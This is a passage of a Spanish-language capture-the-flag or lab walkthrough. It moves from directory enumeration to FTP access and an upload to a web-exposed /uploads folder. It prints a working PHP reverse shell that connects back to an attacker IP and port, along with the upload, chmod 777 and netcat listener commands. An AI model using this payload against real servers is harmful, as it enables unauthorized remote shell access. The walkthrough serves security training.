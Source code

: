 ```
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 200) [Size: 741]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Por lo que vemos hay un directorio llamado `/uploads` y si nos metemos en el no encontraremos nada, pero puede ser que `ftp` y este directorio esten combinados, por lo que probaremos a subir un archivo con una `reverse shell` para ver si lo vemos en el directorio web.

## FTP uploads

```shell
ftp ftpuser@<IP>
```

Metemos la contarseña obtenida anteriormente y estaremos dentro.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

```shell
put shell.php
```

Info:

```
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||18605|)
150 Ok to send data.
100% |*******************************************************************************************************************************************|   114        1.90 MiB/s    00:00 ETA
226 Transfer complete.
114 bytes sent in 00:00 (378.66 KiB/s)
```

Y ahora le pondremos todos los permisos.

```shell
chmod 777 shell.php
```

Una vez hecho esto, si nos vamos al directorio web de `/uploads` veremos el archivo `shell.php` pero antes de darle estaremos a la escucha.

### Reverse Shell

```shell
nc -lvnp <PORT>
```
